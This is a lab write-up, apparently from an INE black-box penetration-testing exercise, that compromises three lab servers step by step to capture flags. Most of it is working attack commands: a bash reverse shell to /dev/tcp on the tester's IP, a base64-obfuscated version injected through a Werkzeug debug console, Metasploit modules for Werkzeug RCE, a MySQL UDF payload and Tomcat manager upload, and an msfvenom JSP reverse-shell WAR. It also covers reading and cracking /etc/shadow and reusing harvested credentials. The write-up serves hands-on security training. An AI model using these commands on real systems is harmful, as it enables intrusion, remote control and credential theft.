


# BLACK BOX TESTING 3

## GIVEN   
**MY IP ADDRESS**: 192.225.53.2

## PROCEDURE

### Machine 1

Port scan target server1.ine.local
```
nmap --script vuln -sV -p- server1.ine.local
```


**OPEN PORTS**:<br>
80 werkzeug httpd 0.9.6 (Python 2.7.13)

**VULNS**:<br>
Dir Traversal (CVE:CVE-2005-3299),<br>
Reverse Proxy Security Bypass (CVE:CVE-2011-3368)

Dir enumeration
```
dirb http://server1.ine.local -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Found /console

Reverse shell bash script<br>
-c COMMAND<br>
-i interactive shell
```
bash -i >& /dev/tcp/192.225.53.2/4444 0>&1
```

Reverse shell embedded in python code
```
__import__('os').system("bash -i >& /dev/tcp/192.225.53.2/4444 0>&1")
```

Encode reverse shell
```
echo "bash -i >& /dev/tcp/192.225.53.2/4444 0>&1" | base64
```

**ENCODED SCRIPT**:YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMjI1LjUzLjIvNDQ0NCAwPiYxCg==

Final python script
```
__import__('os').system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMjI1LjUzLjIvNDQ0NCAwPiYxCg== | base64 -d | bash")
```

Start listener
```
nc -lnvp 1234
```


or can use metasploit to do same thing

```
searchsploit werkzeug
msfconsole
use exploit/multi/http/werkzeug_debug_rce
set LHOST 192.225.53.2
set RHOSTS server1.ine.local
check
exploit
```


Enum user history
```
use post/linux/gather/enum_users_history
set SESSION 1
```


auditor and root user bash history found

```
less /root/.msf4/loot/20221004010957_default_192.225.53.3_linux.enum.users_064842.txt
```

mysql login found


```
mysql -h 192.225.53.4 -u root -pfArFLP29UySm4bZj
show databases
```



### Machine 2

Port scan target server2.ine.local
```
nmap --script vuln -sV -p- server2.ine.local
```


**OPEN PORTS**:<br>
3306 mysql 5.5.62-0ubuntu.14.04.1

This is the mysql server I found while hacking machine 1

```
searchsploit mysql
msfconsole
use exploit/multi/mysql/mysql_udf_payload 
set FORCE_UDF_UPLOAD true
set RHOSTS 192.225.53.4
set PASSWORD fArFLP29UySm4bZj
set LHOST 192.225.53.2
set LPORT 5555
set TARGET 1
exploit
sessions -i 2
ls /root
cat /root/flag
```


**FLAG**: 4c537c0dfd18bafdcd59f53c7015550e

### Machine 3

Port scan target server3.ine.local
```
nmap --script vuln -sV -p- server3.ine.local
```


**OPEN PORTS**:<br>
22 OpenSSH 7.2p2 Ubuntu,<br>
8080 http (Apache Tomcat/Coyote JSP engine 1.1)

Enum webpage dirs
```
dirb http://server3.ine.local:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Need login information to access manager pages

```
msfconsole
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS server3.ine.local
set STOP_ON_SUCCESS true
exploit
```



USERNAME: tomcat<br>
PASSWORD: s3cret

Get meterpreter session
```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS server3.ine.local
set RPORT 8080
set LHOST 192.225.53.2
set LPORT 6666
set HttpPassword s3cret
set HttpUsername tomcat
exploit
```


**FLAG**: EBCFE35ACC27E0EA91CF3A5AB600BABE

or can use msfvenom

-p PAYLOAD
-f FORMAT
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.225.53.2 LPORT=7777 -f war > shell.war
file shell.war
```

Upload and deploy on tomcat server


Start listener
```
nc -lnvp 7777
```

go to /shell


Find a way to escalate privileges
```
cat /etc/shadow
```


non-default user robert found

```
download /etc/shadow
john shadow --user=robert
```

Will take too long

or can also find creds in ~/conf/conf.tar.gz

```
download ~/conf/conf.tar.gz
tar -xvf conf.tar.gz
cd conf
cat tomcat-user.xml
```


PASSWORD: robert@1234567890!@#

```
ssh robert@server3.ine.local
```


**FLAG 2**: EC2986081E84BB845541D5CC0BEE13B3

```
sudo -l
```

robert can run ls with sudo 


```
```